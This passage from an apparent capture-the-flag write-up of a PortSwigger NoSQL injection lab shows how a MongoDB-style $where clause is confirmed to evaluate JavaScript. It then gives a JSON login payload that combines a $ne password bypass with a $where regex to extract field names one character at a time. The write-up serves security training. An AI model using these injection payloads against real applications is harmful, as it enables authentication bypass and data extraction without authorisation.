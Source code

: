 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/NoSQL-Injection/NoSQLi-4/images/Pasted%20image%2020231010135034.png)

In here, we can see that the `0` is evaluated as `False`, which means the login was failed. In `1`, it got "Account locked", which means the login was successfully.

That being said, **the JavaScript expression in the `$where` clause is being evaluated.**

**After that, we can extract field names via `"$where": "Object.keys(this)[0].match('^.{0}a.*')"`:**
```json
{
    "username": "carlos",
    "password":{
        "$ne": "foobar"
    },
    "$where": "Object.keys(this)[0].match('^.{0}a.*')"
}
```
